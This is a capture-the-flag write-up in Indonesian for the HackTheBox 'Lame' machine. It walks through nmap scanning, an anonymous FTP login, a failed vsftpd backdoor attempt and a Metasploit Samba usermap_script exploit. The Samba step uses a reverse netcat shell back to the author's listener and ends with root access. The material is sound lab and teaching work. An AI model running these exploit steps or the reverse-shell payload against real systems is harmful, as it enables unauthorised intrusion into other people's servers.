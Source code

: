```yaml
---
title: "[Writeup][HackTheBox] Lame"
date: 2022-09-29T06:49:09-10:00
author : "justakazh"
tags : ["writeup", "hackhebox", "easy", "linux", "hacking", "samba"]
---
```



## Summary

Machine Name : Lame

Machine Difficult : Easy

Machine Author : [ch4p](https://app.hackthebox.com/users/1)

Machine URL : [Hack The Box](https://app.hackthebox.com/machines/Lame) 

## NMAP ENUMERATION

```bash
┌──(punktester㉿kali)-[~/…/ctf/htb/easy/lame]
└─$ sudo nmap -sV 10.10.10.3                                   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-13 12:35 HST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.38s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.63 seconds
zsh: segmentation fault  sudo nmap -sV 10.10.10.3

```

### 21 - FTP

Target tersebut memiliki port 21 yang dimana port tersebut merupakan port dari Service FTP, target tersebut menggunakan FTP vsftpd 2.3.4. disini saya tertarik untuk mencoba melakukan anonymous login pada FTP tersebut 

```bash
┌──(punktester㉿kali)-[~]
└─$ ftp lame.htb 21
Connected to lame.htb.
220 (vsFTPd 2.3.4)
Name (lame.htb:punktester): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

```

Service tersebut mengizinkan seseorang untuk login menggunakan akun anonymous, sayangnya saya tidak bisa mencari informasi lebih jauh lagi dikarenakan konfigurasi dari ftp tersebut. selanjutnya saya mencoba mencari exploit untuk vsftpd 2.3.4 pada metasploit

```bash
msf6 exploit(multi/samba/usermap_script) > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 exploit(multi/samba/usermap_script) > 

```

saya menemukan exploit/unix/ftp/vsftpd_234_backdoor yang dimana modul ini adalah untuk memicu vsf_sysutil_extra(); berfungsi dengan mengirimkan urutan byte tertentu 
pada port 21, ketika eksekusi berhasil maka akan menghasilkan pembukaan backdoor pada sistem

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/U
                                      sing-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 

```

sayangnya disini saya tidak berhasil melakukan exploitasi tersebut :')

### 22 - SSH

target tersebut menggunakan SSH dengan versi OpenSSH 4.7p1. ini merupakan versi yang sudah usang, disini saya mencoba untuk mencari exploit untuk versi tersebut dengan searchsploit

```bash
┌──(punktester㉿kali)-[~]
└─$ searchsploit OpenSSH 4.7
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                           | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                     | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation               | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                           | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                               | linux/remote/45939.py
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

tidak ada exploit menarik yang berimpact critical untuk versi tersebut, disini saya akan melewati celah tersebut dan saya akan menggunakan exploit tersebut ketika saya membutuhkannya.

### 139,445 - SAMBA

target tersebut memiliki port 139 dan 445 untuk service Samba dengan versi smbd 3.X - 4.X. selanjutnya saya mencoba untuk mencari exploit untuk versi tersebut pada metasploit

```bash
msf6 exploit(multi/samba/usermap_script) > search type:exploit samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   1   exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   2   exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   3   exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   4   exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   5   exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   6   exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   7   exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   8   exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   9   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   10  exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   11  exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   12  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   13  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   14  exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   15  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   16  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow


Interact with a module by name or index. For example info 18, use 18 or use exploit/windows/http/sambar6_search_results

```

terdapat 18 modul yang saya temukan untuk exploit samba tersebut, setelah saya telusuri lebih lanjut target tersebut berpotensi rentan terhadap **Samba "username map script" Command Execution** yaitu pada module nomor 6 **exploit/multi/samba/usermap_script** yang dimana Modul ini mengeksploitasi kerentanan eksekusi perintah di Samba versi 3.0.20 hingga 3.0.25rc3 karena saat menggunakan non-default opsi konfigurasi "username map script". Dengan menentukan nama pengguna mengandung karakter meta shell, sehingga penyerang dapat melakukan RCE pada sistem tersebut.  

```bash
msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.4       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.4:4444 
[*] Command shell session 2 opened (10.10.16.4:4444 -> 10.10.10.3:36449 ) at 2022-10-13 13:11:09 -1000

whoami
root
id
uid=0(root) gid=0(root)
pwd
/

```

GOTCHA! saya berhasil mendapatkan akses tersebut. disini menunjukan bahwa saya mendapatkan akses root pada server tersebut, atau dapat disimpulkan saya tidak perlu melakukan privilege escalation untuk mendapatkan akses root :D





